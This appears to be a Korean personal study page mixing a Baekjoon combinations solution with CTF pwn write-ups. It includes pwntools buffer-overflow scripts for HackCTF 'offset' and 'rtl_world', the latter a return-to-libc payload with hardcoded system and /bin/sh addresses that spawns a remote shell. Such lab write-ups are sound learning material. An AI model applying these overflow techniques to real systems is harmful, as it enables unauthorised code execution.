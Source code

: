 # 개인공부
## python and pwn

## hackctf: offset      

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()


## 백준: 14889. 스타트와 링크

>> 상황에 따라 조합함수 , 수열함수 이용하기


풀이


from itertools import combinations # 조합 함수

>> itertools 모듈 - combination 함수

>> itertools - combinations_with_replacement 함수

N = int(input())        # 반복 횟수 받기

able_borad = []     

for _ in range(N):
    able_borad.append(list(map(int,input().split())))

number_list = [i for i in range(N)]     # 멤버들의 총 리스트

res = float('inf')  #???    # 능력치 차이 최소값


'''
>>> float('inf')          # 양의 무한대
inf

>>> float('-inf')         # 음의 무한대
-inf

>>> 1e100 < float('inf')  # 무한대는 다른 모든 실수보다 크다
True

>>> 1e309                 # 너무 큰 실수는 무한대로 평가된다
inf

>>> 1e-324                # 너무 0에 가까운 실수는 0으로 평가된다
0.0

'''

def solve():
    global res

    # 조합함수를 이용해서 각각 후보자를 생성
    for c in combinations(number_list, N//2):
        # 선택된 후보와 나머지

        start_number = list(c)      
        # number_list 부터 N//2 까지 반복 하면서
        # 나온 c는 비교하기위한 첫번쨰 숫자이고

        link_number = list(set(number_list) - set(c))
        # 링크 넘버는 두번쨰 숫자이다.
        # 리스트에서 스타트리스트와 겹치는 부분만 제거해주면 된다.


        # 점수 비교 2명씩
        start_com = list(combinations(start_number,2))
        # 위의 만들어놨던 스타트 멤버와 링크멤버를 서로 비교
        link_com = list(combinations(link_number,2))

        # 점수 구하기
        start_sum = 0   # 점수 합 변수
        for x,y in start_com:
            start_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.

        link_sum = 0    # 점수 합 변수
        for x,y in link_com:
            link_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.


        # 차이를 구하는거면 함수 abs 를 사용한다.
        # 왜냐하면 음수가 나올수있기떄문에
        # abs >> 절댓값 나오게하는 함수

        if (res > abs(start_sum - link_sum)):
            res = abs(start_sum-link_sum)
            # 계속해서 res와 비교해서 최소값 도출하기
solve()
print(res)

## RTL_world 풀이

checksec 입력시

CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial


이므로 이번문제 역시 yes_or_no 처럼 쉘코드 사용이 불가능하다.
또한 eax 이기떄문에 32비트이다.

일단 바이너리 코드를 살펴보자.

코드

이하 생략 ( 상단 choichanghyeok 이동 / 레벨 문제 / hackCTF문제 / RTL 풀이 )

개인적인 생각으로 case 5: 의 read() 함수를 공격해  bof 를 일으킬수 있을거같다.

read@plt ( call ) 까지의 버퍼는 0x8c  ( 140 ) 

총 길이는 140 + 4(SFP) +  4(RET) = 148 

따라서 페이로드는

버퍼(144) + system 주소 + RET(4) + /bin/sh 주소



system 주소는 IDA 에 보면 system 주소가 있거나 해당 리눅스 gdb info func 명령어를 이용해
알수있다.

system 주소 : 0x080485b0

/bin/sh 주소 : 0x8048eb1

( /bin/sh 주소는 b*main 을 돌리고 실행한뒤 find "/bin/sh" 를 하면 찾을수있다. 주소가 2개나오는데
rtl_world 주소를 사용하면 된다.)


따라서 페이로드 작성 @@

## hackctf: rtl_world
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3010)

p.recv(1024)
p.sendline('5')
p.recvuntil("[Attack] > ")

system_addr = p32(0x080485b0)
bin_addr = p32(0x8048eb1)

payload = "A"*144
payload += system_addr
payload += "A"*4
payload += bin_addr

p.sendline(payload)
p.interactive()


( 파일명 vi rtl.py ) 로 생성

python rtl.py 하면

cat flag 를 입력하면 flag 가 나온다.
